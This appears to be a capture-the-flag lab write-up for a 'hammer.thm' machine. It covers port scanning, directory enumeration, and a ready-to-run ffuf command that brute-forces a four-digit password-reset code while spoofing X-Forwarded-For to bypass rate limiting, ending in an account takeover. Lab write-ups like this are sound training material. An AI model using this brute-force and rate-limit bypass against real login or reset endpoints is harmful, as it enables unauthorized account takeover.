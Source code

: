 - port scanning phase:
	nmap -sC -sV -p- {IP}![](Pasted%20image%2020241206130150.png)
![](Pasted%20image%2020241206131016.png)

- inspect source page
![](Pasted%20image%2020241206131028.png)

- dir enumeration phase
```
gobuster dir --url http://10.10.208.169:1337/hmr_ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -p pattern.txt (hmr_{GOBUSTER})
```
![](Pasted%20image%2020241206145639.png)

- logs dir check
	![](Pasted%20image%2020241206145719.png)
	![](Pasted%20image%2020241206145732.png)
- email address found: tester@hammer.thm
	![](Pasted%20image%2020241206145934.png)
		![](Pasted%20image%2020241206150228.png)
- check for cookies (PHPSESSID: eevapv194ivfivf2ovtibf4vp9)
![](Pasted%20image%2020241206174908.png)

- using burp for security code fuzz (OTP)
![](Pasted%20image%2020241206151052.png)

- we have a Rate-Limit-Pending response header and we have to bypass it using 'X-Forwarded- For' request header spoofing our IP address
- let s generate a list of possible code combinations (0000-9999) using: 
  ```
  seq 0000 9999 >> codes.txt
  ```

- we will be using  `ffuf → X-Forwarded-For`
```
ffuf -w codes.txt -u "http://10.10.252.115:1337/reset_password.php" -X "POST" -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=7fk71t34qtmphh4s7ge6o7k07n" -H "X-Forwarded-For: FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -s 
```
![](Pasted%20image%2020241206181128.png)

- `**-w codes.txt**`: Specifies the wordlist (`codes.txt`) that will be used for fuzzing. This wordlist contains the payloads that will replace the `FUZZ` keyword in the command.
- `**-u "http://hammer.thm:1337/reset_password.php"**`: The URL of the target web application. This is where the fuzzing request will be sent.
- `**-X "POST"**`: Specifies the HTTP method to be used, which in this case is `POST`.
- `**-d "recovery_code=FUZZ&s=60"**`: The data being sent in the body of the POST request. The `FUZZ` keyword here will be replaced with each entry from `codes.txt` during the fuzzing process. It appears that the fuzzing is targeting the `recovery_code` parameter.
- `**-H "Cookie: PHPSESSID=datlnccflgrmhqc9d5pkb6b8a7"**`: Adds a custom header to the request, specifically a `Cookie` header with a session ID. This is likely needed to maintain a session with the web application.
- `**-H "X-Forwarded-For: FUZZ"**`: Adds another custom header, `X-Forwarded-For`, which is often used to identify the originating IP address of a client connecting to a web server. In this case, it's being fuzzed to see if the application behaves differently based on the IP address.
- `**-H "Content-Type: application/x-www-form-urlencoded"**`: Specifies the content type of the data being sent. This is typical for form submissions.
- `**-fr "Invalid"**`: Filters out responses that contain the string `"Invalid"`. This helps in identifying successful or interesting responses that differ from the common invalid ones.
- `**-s**`: Runs `ffuf` in silent mode, which reduces the amount of output to only essential information.

- we obtained following access code: 6707 and after resseting user password we are in
	![](Pasted%20image%2020241206182436.png)![](Pasted%20image%2020241206182553.png)